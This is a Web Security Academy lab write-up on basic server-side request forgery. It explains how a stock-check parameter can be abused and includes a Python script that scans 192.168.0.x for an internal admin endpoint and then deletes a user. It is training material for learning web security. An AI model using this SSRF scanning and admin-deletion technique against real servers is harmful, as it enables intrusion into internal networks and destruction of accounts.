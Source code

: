 ```yaml
---
title: Basic SSRF against another back-end system
tags:
  - web-app
  - ssrf
  - server
  - side
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system/">
2. Basic SSRF against another back-end system</a>

Server-side request forgery (SSRF) - we coerce the server into making a request
on our behalf to some endpoint. The endpoint will receive the request from the
server, not us, therefore we can abuse existing trust relationships between the
server and the target endpoint.

In this case, the server uses a stock API to check to see if an item is in
stock. How the server makes this request is transparent to the user - a POST
request is sent to the server with the API frontend URL contained in the
paramter "stockApi". The server proceeds to make a GET request to this stock
API.

We know that the admin endpoint is located at a different backend server inside
the private network where the website resides - 192.168.0.x. To delete the user
"carlos", we have to brute-force the location of the backend server, using SSRF
to make requests to different IP addresses and inspecting the response to
determine when we find the correct backend endpoint.

Once we find the backend endpoint, we make our request to the /product/stock
endpoint on the server, with the stockApi parameter set to
"http://192.168.0.x/admin/delete?username=carlos". The website server proceeds
to initiate a GET request to the backend server, allowing us to abuse the
existing trust relationship and delete the user "carlos".

Solution:

```python
# usage:
# python3 3.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --w carlos

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, who: str) -> None:
        self.url = url.rstrip("/")
        self.who = who

    def solve(self) -> None:
        self.s = requests.Session()

        for i in range(2, 255):
            r = self.s.post(
                f"{self.url}/product/stock",
                data={"stockApi": f"http://192.168.0.{i}:8080/admin"},
            )

            error = re.findall(r"Internal Server Error", r.text)
            if not error:
                break

        self.s.post(
                f"{self.url}/product/stock",
                data={"stockApi": f"http://192.168.0.{i}:8080/admin/delete?username={self.who}"},
            )


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    s = Solution(args.url, args.who)
    s.solve()


if __name__ == "__main__":
    main()
```
